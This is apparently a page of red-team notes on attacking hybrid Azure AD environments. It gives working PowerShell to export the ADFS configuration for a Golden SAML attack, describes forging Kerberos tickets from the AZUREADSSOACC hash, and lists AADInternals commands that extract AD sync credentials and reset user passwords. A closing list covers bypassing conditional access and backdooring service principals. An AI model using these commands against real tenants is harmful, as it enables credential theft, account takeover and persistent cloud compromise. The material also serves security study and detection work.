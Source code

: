 * Stealing token-signing certificates from on-premises ADFS servers to forge SAML tokens "Golden SAML" attack. 
* Allows anyone with the certificate to impersonate any user to Azure AD. 
* Can steal token-signing certificates to ADFS or add an alternative token-signing certificate
* [Export Active Directory Federation Services (AD FS) Token Signing Certificate](https://github.com/Azure/SimuLand/blob/main/3_simulate_detect/credential-access/exportADFSTokenSigningCertificate.md)
* [FireEye Azure AD backdoors](https://www.fireeye.com/blog/threat-research/2020/09/detecting-microsoft-365-azure-active-directory-backdoors.html)

Export ADFS configuration: 
```
PS> $ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
PS> $conn = $ADFS.ConfigurationDatabaseConnectionString  
PS> $SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
PS> $SQLclient.Open()  
PS> $SQLcmd = $SQLclient.CreateCommand()  
PS> $SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
PS> $SQLreader = $SQLcmd.ExecuteReader()  
PS> $SQLreader.Read() | Out-Null  
PS> $settings=$SQLreader.GetTextReader(0).ReadToEnd()  
PS> $SQLreader.Dispose()  
PS> \[xml\]$xml=$settings  
```
ADFSDump https://github.com/fireeye/ADFSDump

### Compromising the AZUREADSSOACC account to forge Kerberos tickets

* [https://o365blog.com/post/on-prem_admin/](https://o365blog.com/post/on-prem_admin/)
* Dump the hash for the account AZUREADSSOACC using dcsync or from NTDS.DIT
* Forge Kerberos tickets for users synced with Azure AD 

### Setting the password for an account in privileged cloud groups

* Compromise Azure AD connector account (stored in a local configuration database)
* [https://o365blog.com/post/on-prem_admin/](https://o365blog.com/post/on-prem_admin/)

```
$creds = Get-AADIntSyncCredentials
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
Get-AADIntSyncObjects | Select UserPrincipalName,SourceAnchor,CloudAnchor | Sort UserPrincipalName
Set-AADIntUserPassword ...
```

Using a compromised AD sync accounts [I'm in your cloud tenant](https://dirkjanm.io/assets/raw/Im%20in%20your%20cloud%20bluehat-v1.0.pdf)
* Dump all on-premise password hashes (if PHS is enabled)
• Log in on the Azure portal (since it’s a user)
• Bypass conditional access policies for admin accounts
• Add credentials to service principals
• Modify service principals properties
• Modify/backdoor/remove conditional access policies (internal API)
